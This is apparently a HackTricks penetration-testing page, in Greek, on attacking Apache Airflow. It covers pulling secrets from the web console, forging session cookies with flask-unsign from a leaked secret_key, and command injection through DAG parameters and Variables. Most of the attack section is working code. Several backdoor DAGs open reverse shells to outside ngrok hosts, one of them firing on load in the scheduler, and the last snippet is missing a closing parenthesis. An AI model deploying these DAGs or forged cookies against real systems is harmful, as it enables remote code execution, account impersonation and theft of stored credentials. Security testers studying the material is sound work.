 # Apache Airflow Security

{{#include ../../banners/hacktricks-training.md}}

### Basic Information

[**Apache Airflow**](https://airflow.apache.org) λειτουργεί ως πλατφόρμα για **τον προγραμματισμό και την εκτέλεση ροών δεδομένων ή εργασιών**. Ο όρος "ορχήστρωση" στο πλαίσιο των ροών δεδομένων σημαίνει τη διαδικασία οργάνωσης, συντονισμού και διαχείρισης σύνθετων ροών εργασίας δεδομένων που προέρχονται από διάφορες πηγές. Ο κύριος σκοπός αυτών των ορχηστρωμένων ροών δεδομένων είναι να παρέχουν επεξεργασμένα και καταναλώσιμα σύνολα δεδομένων. Αυτά τα σύνολα δεδομένων χρησιμοποιούνται εκτενώς από μια πληθώρα εφαρμογών, συμπεριλαμβανομένων αλλά όχι περιορισμένων σε εργαλεία επιχειρηματικής ευφυΐας, μοντέλα επιστήμης δεδομένων και μηχανικής μάθησης, τα οποία είναι θεμελιώδη για τη λειτουργία εφαρμογών μεγάλων δεδομένων.

Βασικά, το Apache Airflow θα σας επιτρέψει να **προγραμματίσετε την εκτέλεση κώδικα όταν κάτι** (γεγονός, cron) **συμβαίνει**.

### Local Lab

#### Docker-Compose

Μπορείτε να χρησιμοποιήσετε το **docker-compose config file από** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) για να εκκινήσετε ένα πλήρες περιβάλλον docker apache airflow. (Αν είστε σε MacOS, βεβαιωθείτε ότι δίνετε τουλάχιστον 6GB RAM στη VM docker).

#### Minikube

Ένας εύκολος τρόπος για να **τρέξετε το apache airflow** είναι να το τρέξετε **με το minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Ρύθμιση Airflow

Το Airflow μπορεί να αποθηκεύει **ευαίσθητες πληροφορίες** στη ρύθμισή του ή μπορεί να βρείτε αδύναμες ρυθμίσεις:

{{#ref}}
airflow-configuration.md
{{#endref}}

### RBAC Airflow

Πριν ξεκινήσετε να επιτίθεστε στο Airflow, θα πρέπει να κατανοήσετε **πώς λειτουργούν οι άδειες**:

{{#ref}}
airflow-rbac.md
{{#endref}}

### Επιθέσεις

#### Αριθμητική κονσόλας ιστού

Εάν έχετε **πρόσβαση στην κονσόλα ιστού**, μπορεί να μπορείτε να αποκτήσετε πρόσβαση σε ορισμένες ή όλες τις παρακάτω πληροφορίες:

- **Μεταβλητές** (Προσαρμοσμένες ευαίσθητες πληροφορίες μπορεί να αποθηκεύονται εδώ)
- **Συνδέσεις** (Προσαρμοσμένες ευαίσθητες πληροφορίες μπορεί να αποθηκεύονται εδώ)
- Πρόσβαση σε αυτές στο `http://<airflow>/connection/list/`
- [**Ρύθμιση**](./#airflow-configuration) (Ευαίσθητες πληροφορίες όπως το **`secret_key`** και κωδικοί πρόσβασης μπορεί να αποθηκεύονται εδώ)
- Λίστα **χρηστών & ρόλων**
- **Κώδικας κάθε DAG** (ο οποίος μπορεί να περιέχει ενδιαφέρουσες πληροφορίες)

#### Ανάκτηση Τιμών Μεταβλητών

Οι μεταβλητές μπορούν να αποθηκεύονται στο Airflow ώστε οι **DAGs** να μπορούν να **προσεγγίζουν** τις τιμές τους. Είναι παρόμοιο με τα μυστικά άλλων πλατφορμών. Εάν έχετε **αρκετές άδειες**, μπορείτε να τις αποκτήσετε μέσω της GUI στο `http://<airflow>/variable/list/`.\
Το Airflow από προεπιλογή θα δείξει την τιμή της μεταβλητής στη GUI, ωστόσο, σύμφωνα με [**αυτό**](https://marclamberti.com/blog/variables-with-apache-airflow/), είναι δυνατόν να ορίσετε μια **λίστα μεταβλητών** των οποίων η **τιμή** θα εμφανίζεται ως **αστερίσκοι** στη **GUI**.

![](<../../images/image (164).png>)

Ωστόσο, αυτές οι **τιμές** μπορούν να **ανακτηθούν** μέσω **CLI** (χρειάζεστε πρόσβαση στη βάση δεδομένων), **εκτέλεση αυθαίρετου DAG**, **API** που αποκτά πρόσβαση στο endpoint μεταβλητών (η API πρέπει να είναι ενεργοποιημένη), και **ακόμα και η ίδια η GUI!**\
Για να αποκτήσετε πρόσβαση σε αυτές τις τιμές από τη GUI, απλώς **επιλέξτε τις μεταβλητές** που θέλετε να αποκτήσετε πρόσβαση και **κάντε κλικ σε Ενέργειες -> Εξαγωγή**.\
Ένας άλλος τρόπος είναι να εκτελέσετε μια **bruteforce** στην **κρυφή τιμή** χρησιμοποιώντας το **φιλτράρισμα αναζήτησης** μέχρι να την αποκτήσετε:

![](<../../images/image (152).png>)

#### Κλιμάκωση Δικαιωμάτων

Εάν η ρύθμιση **`expose_config`** είναι ρυθμισμένη σε **True**, από το **ρόλο Χρήστη** και **πάνω** μπορούν να **διαβάσουν** τη **ρύθμιση στο διαδίκτυο**. Σε αυτή τη ρύθμιση, εμφανίζεται το **`secret_key`**, που σημαίνει ότι οποιοσδήποτε χρήστης με αυτό το έγκυρο μπορεί να **δημιουργήσει το δικό του υπογεγραμμένο cookie για να προσποιηθεί οποιονδήποτε άλλο λογαριασμό χρήστη**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE in Airflow worker)

Αν έχετε **δικαιώματα εγγραφής** στον χώρο όπου αποθηκεύονται οι **DAGs**, μπορείτε απλά να **δημιουργήσετε έναν** που θα σας στείλει μια **reverse shell.**\
Σημειώστε ότι αυτή η reverse shell θα εκτελείται μέσα σε ένα **airflow worker container**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE in Airflow scheduler)

Αν ορίσετε κάτι να **εκτελείται στη ρίζα του κώδικα**, τη στιγμή που γράφεται αυτό, θα **εκτελείται από τον προγραμματιστή** μετά από μερικά δευτερόλεπτα αφού το τοποθετήσετε μέσα στον φάκελο του DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### Δημιουργία DAG

Αν καταφέρετε να **συμβιβάσετε μια μηχανή μέσα στο DAG cluster**, μπορείτε να δημιουργήσετε νέα **σενάρια DAG** στον φάκελο `dags/` και θα **αντιγραφούν στις υπόλοιπες μηχανές** μέσα στο DAG cluster.

#### Εισαγωγή Κώδικα DAG

Όταν εκτελείτε ένα DAG από το GUI μπορείτε να **περάσετε παραμέτρους** σε αυτό.\
Επομένως, αν το DAG δεν είναι σωστά κωδικοποιημένο, θα μπορούσε να είναι **ευάλωτο σε Command Injection.**\
Αυτό συνέβη σε αυτήν την CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Όλα όσα χρειάζεται να γνωρίζετε για να **ξεκινήσετε να αναζητάτε command injections σε DAGs** είναι ότι οι **παράμετροι** **προσπελάζονται** με τον κώδικα **`dag_run.conf.get("param_name")`**.

Επιπλέον, η ίδια ευπάθεια μπορεί να συμβεί με **μεταβλητές** (σημειώστε ότι με αρκετά δικαιώματα θα μπορούσατε να **ελέγξετε την τιμή των μεταβλητών** στο GUI). Οι μεταβλητές **προσπελάζονται με**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Αν χρησιμοποιούνται, για παράδειγμα, μέσα σε μια εντολή bash, θα μπορούσατε να εκτελέσετε μια ένεση εντολής.

{{#include ../../banners/hacktricks-training.md}}
